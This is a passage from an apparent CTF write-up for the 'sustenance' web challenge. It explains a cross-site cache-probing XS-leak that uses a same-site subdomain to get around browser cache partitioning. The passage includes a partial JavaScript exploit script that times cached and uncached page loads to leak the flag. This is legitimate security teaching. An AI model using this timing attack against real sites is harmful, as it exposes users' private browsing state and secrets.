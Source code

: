 I also discussed with my teammates whether we can use the cookie bomb to do something since we can set cookies, but we didn't find any way to exploit after the discussion.

Then I tried to use the method in the [pbctf 2021 Vault](http://blog.bawolff.net/2021/10/write-up-pbctf-2021-vault.html), use `a:visited` to leak the history, but I found that it's not work in headless Chrome. It works in my local Chrome, but not in headless mode, the time to render the visited link is always fast(like 16ms).

After a while, [lebr0nli](https://lebr0nli.github.io/blog/) posted a POC on the channel about cache probing, which is modified from [Maple's writeup](https://blog.maple3142.net/2021/10/11/pbctf-2021-writeups/#vault). The point is "we can use other same site domain to bypass cache partitioning".

For example, the URL for the other challenge is `https://xtra-salty-sardines.web.actf.co/`, if you use fetch from that domain, the cache key will also be `(https://actf.co, https://actf.co, https://sustenance.web.actf.co/?m=xxx)` because cache key only take eTLD+1 into account. So same site, same cache key.

The problem he encountered is that it works on local, but on remote it's always false positive. So I made another one based on  his POC, tried to send back some more data, and found that the problem was that the server was running pretty fast.

For example, if there is a cache, it takes 3ms, and if there is no cache, it only takes 5ms. The difference is very small. Even the timestamp part is also within 10ms after `window.open`.

Therefore, I modified the exploit script and calculated the average time of cache at the remote end, and successfully leaked the flag. The script is as follows:

https://gist.github.com/aszx87410/e369f595edbd0f25ada61a8eb6325722

``` js
// to hang the connection
fetch('https://deelay.me/20000/https://example.com')

// NOTE: we will calculate this baseline before doing the attack
var baseLine = 3.2
const sleep = ms => new Promise((resolve) => setTimeout(resolve, ms))

go()
async function go() {
  await calculateBaseline()
  main()

  async function calculateBaseline() {
    var m = Math.random()
    let win = window.open('https://sustenance.web.actf.co/?m=cached_' + m)
    
    // NOTE: this number can be decreased by detecting window load
    await sleep(500)
    win.close()
    let total = 0
    for(let i=1; i<=5; i++) {
      let ts = await getLoadTime('https://sustenance.web.actf.co/?m=cached_' + m)
      total += ts
      report(`Cached time, round: ${i}, ${ts}ms`)
    }
    // NOTE: 0.5 is just a random guess
    baseLine = (total/5) + 0.5
    report(`Baseline: ${baseLine}`)
    
    // NOTE: adjust baseline, should not be more than 3 ms based on previous testing
    if (baseLine > 3) {
      baseLine = 3
    }
    for(let i=1; i<=3; i++) {
      let ts = await getLoadTime('https://sustenance.web.actf.co/?m=not_cached_' + m)
      report(`Not Cached time, round: ${i}, ${ts}ms`)
    }
```